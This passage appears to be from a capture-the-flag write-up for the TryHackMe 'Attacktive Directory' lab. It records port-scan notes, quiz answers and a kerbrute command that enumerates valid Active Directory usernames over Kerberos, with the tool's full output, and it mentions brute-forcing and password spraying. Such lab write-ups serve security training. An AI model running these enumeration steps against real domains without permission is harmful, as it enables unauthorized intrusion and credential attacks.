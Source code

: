 ```bash
Nmap done: 1 IP address (1 host up) scanned in 80.32 seconds
```

* enumerating on DNS, LDAP, RPC (access is denied) and found nothing.
* on port 80 we have `Microsoft-IIS/10.0` and nothing else.
* from RDP certificate found a computer name and domain name - `AttacktiveDirectory.spookysec.local`.

#### **Questions**

*   What tool will allow us to enumerate port 139/445?

    `enum4linux`
*   What is the NetBIOS-Domain Name of the machine?

    Via `enum4linux`:

![](2025-05-31-attacktive-directory-2.png)

*   What invalid TLD do people commonly use for their Active Directory Domain?

    `.local`

### Enumerating Users via Kerberos

* As from all the other service we found nothing and thus remains only Kerberos on port 88.
* to enumerate this we will be using [kerbrute](https://github.com/ropnop/kerbrute/releases) tool which can help us to brute force discovery of users, passwords and even password spray!
* download username and password list from tryhackme. (given for this room)
  * [userlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
  * [passwordlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

```bash
┌──(kali㉿kali)-[~/Desktop/Attacktive_Directory]
└─$ ./kerbrute_linux_amd64 userenum --dc 10.10.134.250 -d spookysec.local userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/03/23 - Ronnie Flathers @ropnop

2023/06/03 02:38:48 >  Using KDC(s):
2023/06/03 02:38:48 >  	10.10.134.250:88

2023/06/03 02:38:49 >  [+] VALID USERNAME:	 james@spookysec.local
2023/06/03 02:38:52 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2023/06/03 02:38:56 >  [+] VALID USERNAME:	 James@spookysec.local
2023/06/03 02:38:57 >  [+] VALID USERNAME:	 robin@spookysec.local
2023/06/03 02:39:10 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2023/06/03 02:39:24 >  [+] VALID USERNAME:	 administrator@spookysec.local
2023/06/03 02:39:42 >  [+] VALID USERNAME:	 backup@spookysec.local
2023/06/03 02:39:50 >  [+] VALID USERNAME:	 paradox@spookysec.local
2023/06/03 02:40:47 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2023/06/03 02:41:06 >  [+] VALID USERNAME:	 Robin@spookysec.local
2023/06/03 02:42:57 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2023/06/03 02:46:42 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2023/06/03 02:47:52 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2023/06/03 02:51:56 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2023/06/03 02:53:00 >  [+] VALID USERNAME:	 ori@spookysec.local
2023/06/03 02:55:00 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2023/06/03 03:00:15 >  Done! Tested 73317 usernames (16 valid) in 1286.796 seconds
```